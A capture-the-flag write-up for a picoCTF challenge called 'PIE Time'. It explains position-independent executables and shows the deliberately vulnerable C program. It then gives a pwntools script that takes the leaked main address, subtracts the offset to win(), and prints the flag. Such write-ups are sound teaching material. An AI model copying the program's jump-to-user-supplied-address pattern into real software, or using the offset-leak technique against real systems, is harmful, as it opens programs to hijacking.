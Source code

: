 # PIE Time

`Author: Darkraicg492`

> Description - Can you try to get the flag? Beware we have PIE! Additional details will be available after launching your challenge instance.

In this challenge we have given two files vuln.c and a compiled binary with PIE-enabled

We can check this using `checksec` command -

```bash

$ checksec vuln
[*] '/mnt/d/work/picoctf/pie-time/vuln'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

```

The `vuln` binary is compiled with PIE enabled.


## What is PIE?
PIE stands for Position Independent Executable. It's a compiler feature that makes a program’s code segment (the .text section) load at a random address in memory every time the program is run.

In other words, the base address of the binary changes each time, just like shared libraries under ASLR (Address Space Layout Randomization).

### Why PIE Matters in Exploitation
In binaries without PIE, the code segment is loaded at a fixed address. That means:

- Function addresses (like main() or win()) are always the same.
- You can hardcode return addresses or ROP gadgets.
- Exploitation is easier.

In PIE-enabled binaries:

- The code segment is loaded at a random base address.
- You can’t hardcode absolute addresses.
- You must first leak an address and calculate the offset.




Now given `vuln.c` code is -

```c

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}

```

The `main` function taking input address and will call the function at that memory address.

The `win` function here is printing the flag from a file `flag.txt`, which is most prolly on the remote server

To test our exploit locally, we’ll create a dummy `flag.txt` file with a fake flag:


```
## flag.txt

flag{REDACTED}

```

Now the exploit here is to pass address of `win` function in the input and hence the flag from `flag.txt` will get printed

Let's first calculate the offset for win function as PIE is enabled relative addressing of function remains same.

We'll use objdump to disassemble the binary and find the relative offsets of main and win.


```bash

$ objdump -d vuln | grep main
    11c1:       48 8d 3d 75 01 00 00    lea    0x175(%rip),%rdi        # 133d <main>
    11c8:       ff 15 12 2e 00 00       call   *0x2e12(%rip)        # 3fe0 <__libc_start_main@GLIBC_2.2.5>
000000000000133d <main>:
    1387:       48 8d 35 af ff ff ff    lea    -0x51(%rip),%rsi        # 133d <main>
    1400:       74 05                   je     1407 <main+0xca>

```

```bash

$ objdump -d vuln | grep win 
00000000000012a7 <win>:
    12db:       75 16                   jne    12f3 <win+0x4c>
    1302:       eb 1a                   jmp    131e <win+0x77>
    1322:       75 e0                   jne    1304 <win+0x5d>

```

Now main function at 0x0133d and win fucntion is at 0x012a7

So hence we'll calculate the offset as

```
MAIN_ADDR - WIN_ADDR = OFFSET
0x0133d - 0x012a7 = 0x96
```

Hence offset is 0x96.

Now what we'll do is use this calculate the actual memory address of win function with the giving actual memory address of main function.

The main address printed by the binary is its actual runtime address. Since PIE is enabled, this will change each time. But the offset between main and win stays the same, which allows us to compute the address of win

```
WIN_MEMORY_ADDR = MAIN_MEMORY - OFFSET
WIN_MEMORY_ADDR = MAIN_MEMORY - 0x96
```

Hence we'll get our win memory address which can be passed as input to get the flag.

We can automate this using a pwntools python script -

```python


from pwn import *

# Load the ELF binary
binary = ELF('./vuln')  # replace with your binary name


HOST = "..."
PORT = "..."
# p = remote(HOST, PORT)  # replace with your remote server address and port
p = process("./vuln")

p.recvuntil(b"main: ")
main_memory = int(p.recvline().strip(), 16)
print(f"main: {hex(main_memory)}")

main_addr = binary.symbols["main"]
print(f"[*] Address of main: {hex(main_addr)}")

win_addr = binary.symbols["win"]
print(f"[*] Address of win: {hex(win_addr)}")

offset = main_addr - win_addr

print(f"[*] Offset: {hex(offset)}")

print(f"[*] Performing {hex(main_memory)} - {hex(offset)}")
win_memory = main_memory - offset
print(f"[*] got win memory: {hex(win_memory)}")

p.recvuntil(b"Enter the address to jump to, ex => 0x12345: ")
p.sendline(hex(win_memory).encode())
p.interactive()

```

Running this will output -

```bash

$ python3 sol.py
[*] '/mnt/d/work/picoctf/pie-time/vuln'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Starting local process './vuln': pid 3810
main: 0x5600562ae33d
[*] Address of main: 0x133d
[*] Address of win: 0x12a7
[*] Offset: 0x96
[*] Performing 0x5600562ae33d - 0x96
[*] got win memory: 0x5600562ae2a7
[*] Switching to interactive mode
Your input: 5600562ae2a7
You won!
flag{REDACTED}
[*] Process './vuln' stopped with exit code 0 (pid 3810)
[*] Got EOF while reading in interactive
```

Hurray!! We got our flag by exploiting local executable, you can do similar to get the real flag by replacing `HOST` and `PORT` of remote server that you started.